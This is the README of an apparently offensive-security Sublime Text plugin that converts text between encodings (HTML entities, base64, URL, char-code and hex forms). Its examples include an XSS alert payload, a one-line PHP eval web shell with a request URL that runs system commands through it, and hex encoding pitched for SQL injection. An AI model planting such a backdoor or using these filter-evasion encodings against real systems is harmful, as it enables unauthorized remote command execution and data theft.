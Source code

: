# SublimeXssEncode
Converts characters from one encoding to another using a transformation.

**Convert the region you selected or convert all characters.**

Installation
----
1. Open the Sublime Text Packages folder
    * OS X: ~/Library/Application Support/Sublime Text 3/Packages/
    * Windows: %APPDATA%/Sublime Text 3/Packages/
    * Linux: ~/.Sublime Text 3/Packages/ or ~/.config/sublime-text-3/Packages

2. clone this repo
	
	```
	git clone https://github.com/Medicean/SublimeXssEncode.git
	```

Commands
----

* `html_escape`

	Converts characters to their HTML entity.
	
	**eg:**
	
	`a1@&` => `a1@&amp;`

* `html10_encode`
	
	Converts characters to html entity with decimal.
	
	**eg:**
	
	`a1@&` => `&#97;&#49;&#64;&#38;`

* `html16_encode`

	Converts characters to html entity with hexadecimal.

	**eg:**
	
	`a1@&` => `&#x61;&#x31;&#x40;&#x26;`

* `html_unescape`

	Converts html entity to characters.
	
	**eg:**
	
	`a&#97;&#x61;&amp;` => `aaa&`

* `base64_encode`

	Uses base64 to encode into base64
	
	**eg:**
	
	`a1@&` => `YTFAJg==`

* `base64_decode`

	**eg:**
	
	`YTFAJg==` => `a1@&`

* `url_encode`

	**eg:**
	
	`alert(/xss/);` => `alert%28/xss/%29%3B`

* `url_decode`

	**eg:**
	
	`alert%28/xss/%29%3B` => `alert(/xss/);`

* `string_from_char_code`

	**eg:**
	
	`alert(/xss/);` => `String.fromCharCode(97,108,101,114,116,40,47,120,115,115,47,41,59)`

* `mysql_char`

	**eg:**
	
	`123` => `CHAR(49,50,51)`
	
	You can excute the sql commands below.
	
	`select 123;`
	
	`select CHAR(49,50,51);`
	
* `oracle_chr`

	**eg:**
	
	`123` => `CHR(49)||CHR(50)||CHR(51)`
	
	You can excute the sql commands below.
	
	`select 123;`
	
	`select CHR(49)||CHR(50)||CHR(51);`

* `php_chr`
	
	Convert characters with function chr.
	
	**eg:**
	
	Support we have a php backdoor, and the content is `<?php @eval($_REQUEST[cmd]);?>`
	
	if you want to execute some commands which includes special chars, you can convert it.
	
	`ls -al` => `CHR(108).CHR(115).CHR(32).CHR(45).CHR(97).CHR(108)`
	
	now you can request the url below:
	
	`http://127.0.0.1/backdoor.php?cmd=system(CHR(108).CHR(115).CHR(32).CHR(45).CHR(97).CHR(108));`
	
* `string_to_hex`

	Convert string to hexadecimal, it's more useful for sql injection.

	**eg:**
	
	`root` => `726f6f74`

	now you can excute the sql commands below.

	`SELECT user from mysql.user where user='root';`
	
	`SELECT user from mysql.user where user=0x726f6f74;`

* `hex_to_string`

	**eg:**
	
	`726f6f74` => `root`

* `unicode_decode`

	**eg:**
	
	`测试` => `\u6d4b\u8bd5`

* `unicode_encode`

	**eg:**
	
	`\u6d4b\u8bd5` => `测试`

* `md5_encode`

	**eg:**
	
	`1` => `c4ca4238a0b923820dcc509a6f75849b`
